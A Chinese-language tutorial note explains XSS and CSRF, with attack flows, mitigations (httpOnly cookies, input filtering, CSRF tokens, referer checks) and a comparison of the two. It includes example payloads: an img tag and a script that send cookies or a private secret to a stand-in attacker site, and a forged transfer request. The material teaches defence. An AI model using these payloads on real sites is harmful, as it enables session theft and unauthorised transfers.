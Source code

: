 ## 关于web安全的几个问题
### 跨站脚本攻击
* 即 Cross Site Scripting, 安全专家们通常将其缩写成XSS,原本应当是css，但为了和层叠样式表（Cascading Style Sheet,CSS ）有所区分，故称XSS。
* 攻击流程、条件
	- 受攻击的站点 A http://www.a.com 有一个用户留言页面，该页面提供用户留言的list，或者好有一个依赖cookie而匹配的私有信息的接口/showSecret，以及一个留言输入框。
	- 攻击的站点 B http://www.b.com/ 有两个个接口 /getCookie，/getList
	- 攻击者有两种攻击方式：
		+ 在留言输入框中输入 
		```
			<img src="http://www.b.com/getCookie/"+document.cookie >
		```
		如果A站点不做安全措施，就会导致当前信息存入数据库，以后每位用户访问这个list页面的时候，都会去请求这个接口，并且把cookie作为参数发送到了B站点

		+ 在留言处输入  
		```
			<script type="text/javascript">
				$.get('/showSecret',function(res){
					// 因为登录用户已经存在cookie, 所以会正常返回私有信息
					// 下面将 secret 发送到B站点
					$.get("http://www.b.com/getList"+res.secret,function(){});
					// 此处虽然跨域，但是并不影响请求的发送，于是secret就发送到了B站点
				})
			</script>
		```
* 解决方案
	- 服务器返回cookie的时候， 设置httpOnly:true，是js不能读取cookie，以解决第一种攻击方式
	- 输入框限制脚本，或者标签输入，或者做过滤，使得用户输入的内容不被当做代码执行

### 跨站请求伪造
* 即 Cross-site request forgery，通常缩写为CSRF或者XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。
* 攻击流程、条件
	- 站点 A http://www.a.com 有一个依赖cookie转账的接口，例如 /transfer?name=sunny&money=10000，转10000元给sunny
	- 站点 B http://www.b.com 中有一段恶意攻击的 img 请求
	```
		<img src="http://www.a.com/transfer?name=mayun&money=1" alt="">
	```
	- 如果用户登录了a 站点，并且在没有退出的情况下，又访问了b，这时候img请求就因为有了cookie发送成功，从而转账1元给mayun
* 解决方案
	- 用户打开转账页面的时候，a站点保存一个随机数，并返回到用户的转账页面，用户发起转账时，js代码将这个参数也携带上，再发起请求；
	 而用户打开B站点的时候，直接请求了转账接口，而不能获取转账页面的随机数，所以转账请求也没法传递随机参数；
	 如果随机数能与服务器上的匹配上，说明是正常页面在发起请求。
	- 手机验证码
	- referer，referer请求头会告诉A服务器，当前请求是由哪个页面发起请求的，如果是攻击者B站的页面发起的请求，则服务器A收到的referer是、
	 http://www.b.com 服务器a可以不予回应；当然这种方式也存在其它问题。


### 两种安全问题的比较
* 区别1、xss跨站脚本攻击是，在 被攻击的A站点提供的页面里 请求 攻击者B站点的接口；而csrf跨站请求伪造，是在攻击者B站点提供的页面里，请求被攻击者A站点的接口。
* 区别2、xss跨站脚本攻击，必须得是被攻击者页面提供一个输入框，并且其他用户能访问到输入内容。
* 区别3、csrf跨站请求，必须得是用户自己点击了B站点的链接。
* 共同点、都是利用了cookie。